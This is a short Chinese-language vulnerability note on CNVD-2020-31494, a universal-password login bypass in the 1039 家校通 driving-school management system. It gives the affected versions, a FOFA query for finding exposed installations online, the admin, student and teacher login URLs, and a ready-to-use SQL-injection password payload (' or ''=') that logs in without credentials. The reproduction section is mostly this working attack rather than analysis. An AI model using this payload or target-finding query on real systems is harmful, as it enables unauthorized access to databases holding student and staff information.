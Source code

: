 # 1039家校通 万能密码绕过 CNVD-2020-31494

## 漏洞描述

北京1039科技发展有限公司是一家专注驾校管理系统、驾校移动办公系统、驾校管理软件、驾校招生小程序开发等,为驾校提供无死角的驾校管理系统解决方案。

北京1039科技发展有限公司驾校管理系统存在万能密码绕过漏洞，攻击者可利用该漏洞获取数据库信息。

## 漏洞影响

```
1039家校通 v1.0 - v6.0
```

## FOFA

```
title="学员登录_1039家校通"
```

## 漏洞复现

管理员登录接口为

```plain
/admin/Product/Comstye.aspx
/Student/StudentLogin.aspx
/Teacher/Index.aspx
```



![](./images/202202101936922.png)



账号密码为如下即可登录

```plain
user:peiqi
pass:' or ''='
```



![](./images/202202101936366.png)
